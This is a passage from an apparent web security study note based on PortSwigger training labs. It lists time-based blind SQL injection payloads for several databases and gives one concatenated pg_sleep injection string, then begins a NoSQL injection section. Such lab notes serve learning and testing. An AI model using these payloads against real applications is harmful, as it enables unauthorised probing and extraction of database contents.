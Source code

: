 ### Blind (Time-based)

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 8).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 8: Successfully injecting a time-based payload.</p></figcaption></figure>

### NoSQLi

> _The example below is based on PostSwigger's_ [_Exploiting NoSQL operator injection to bypass authentication_](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication) _lab._

A simplified example of how `mongodb` queries filters data using [mongoplayground](https://mongoplayground.net/) can be found below (Figure 9).
